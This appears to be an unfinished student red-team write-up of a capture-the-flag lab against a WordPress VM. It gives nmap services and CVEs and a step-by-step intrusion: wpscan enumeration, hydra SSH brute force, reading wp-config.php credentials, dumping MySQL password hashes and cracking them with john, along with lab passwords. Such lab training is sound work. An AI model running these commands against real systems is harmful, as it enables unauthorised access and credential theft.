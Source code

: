 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

![01_nmap](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/01_nmap.png)

This scan identifies the services below as potential points of entry:

  ```
    22/tcp SSH OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
    80/tcp http Apache httpd 2.4.10 ((Debian))
    111/tcp rpcbind 2-4 (RPC #100000)
    139/tcp netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp microsoft-ds Samba smbd 4.2.14-Debian (workgroup: WORKGROUP)
  ```

Based on ths scan, the following vulnerabilities can be exploited on this system:

- [CVE-2021-28041 Open SSH](https://www.cve.org/CVERecord?id=CVE-2021-28041)
- [CVE-2017-15710 Apache https 2.4.10](https://www.cve.org/CVERecord?id=CVE-2017-15710)
- [CVE-2017-8779 rcpbind open port](https://www.cve.org/CVERecord?id=CVE-2017-8779)
- [CVE-2017-7494 Samba NetBIOS](https://www.cve.org/CVERecord?id=CVE-2017-7494)


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Enumerating WordPress site with `wpscan` security tool to obtain usernames Michael and Steven.
- Command used: `wpscan --url http://192.168.1.110/wordpress -eu` 
- Users found:

![02_wpusers](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/02_users.png)

<!-- - Visiting the target IP (`192.168.1.110`) over `HTTP` port 80 -->

**Exploit:**

- Cracking Michael's credentials with `hydra -l michael -P /usr/share/wordlist/rockyou.txt -s 22 <IP> ssh` or by guessing the password being the same as his name

![03_ssh](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/03_ssh.png)


- `SSH` into Michael's account with `ssh michael@192.168.1.110`
- Searching for the `flag1` by using: `find . | xargs grep "flag1" *` or `grep -RE "flag1" html` 

![04_flag1](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/04_flag1.png)

![05_flag1](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/05_flag1.png)

- Searching for `flag2` in the `/var/www` directory and finding it easily:

![06_flag2]()**MISSING**

- Finding the `MySQL` database credentials by printing the contents of `/var/www/html/wordpress/wp-config.php`. We can see that the username is `root` and the password is `R@v3nSecurity`:

![07_db1]()**MISSING**

- Using the credentials to login to MySQL with `mysql -u root -p` and searching for the user password hashes with the following sequence of commands:

View all databases: `show databases;` 

Use Wordpress DB: `use wordpress;`

Show Tables of Wordpress DB: `show tables;`

View all users table objects: `select * from wp_users`

![08_dbusers](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/08_dbusers.png)

- Finding `flag3` and `flag4` by exploring the rest of the database tables. We run `select * from wp_posts` to find:

![09_flag3]()**MISSING**

![10_flag4]()**MISSING**

- Using `john` to crack the password hashes for Steve's credentials: `john -wordlist:/usr/share/wordlists/rockyou.txt hash.txt` to find his password: pink84

![11_john]()**MISSING**

- Now we can `SSH` into Steven's account with: `ssh steven@192.168.1.110` and escalate privileges by...


